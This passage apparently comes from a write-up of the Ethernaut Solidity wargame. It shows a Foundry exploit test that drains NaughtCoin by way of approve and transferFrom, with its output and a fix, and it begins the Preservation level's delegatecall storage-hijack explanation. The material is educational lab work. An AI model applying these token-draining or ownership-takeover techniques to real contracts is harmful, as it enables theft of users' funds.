 ### 🧪 Exploit Test
``` solidity
function test_attack() public {
    // player approves attacker to spend unlimited tokens
    vm.startPrank(player);
    naughtCoin.approve(attacker, type(uint256).max);
    vm.stopPrank();

    // attacker drains all tokens from the player using transferFrom
    vm.startPrank(attacker);
    uint256 fullbalance = naughtCoin.balanceOf(player);
    naughtCoin.transferFrom(player, attacker, fullbalance);
    
    assertEq(naughtCoin.balanceOf(attacker), fullbalance);
    assertEq(naughtCoin.balanceOf(player), 0);
    vm.stopPrank();
}
```
### 📋 Test Output
``` text
[PASS] test_attack() (gas: 74257)
...
NaughtCoin::approve(attacker, max)
NaughtCoin::transferFrom(player → attacker, 1_000_000 tokens)
✅ Final balances:
- attacker: 1_000_000 tokens
- player: 0 tokens

```
### 🔒 Recommended Mitigation

Override the transferFrom() function and apply the same lockTokens modifier:
``` solidity
function transferFrom(
    address from,
    address to,
    uint256 value
) public override lockTokens returns (bool) {
    return super.transferFrom(from, to, value);
}

```
Alternatively, enforce the timelock check for the player address directly within the modifier or base logic to apply to all transfers involving the player.

---

## Level 17:Preservation

**AttackDesc**:
The contract uses delegatecall to external library contracts. Since the library contract has only one storage variable at slot 0 (storedTime), but the main contract stores important variables like owner at slot 2, an attacker can manipulate storage by crafting a malicious library that writes to any slot, including the owner slot. The attacker first overwrites the timeZone1Library address, then performs a delegatecall to their malicious contract to gain ownership.
### 🔍 Vulnerable Function
``` solidity
function setFirstTime(uint256 _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
}
```
**Vulnerability**:
Uses delegatecall with untrusted input.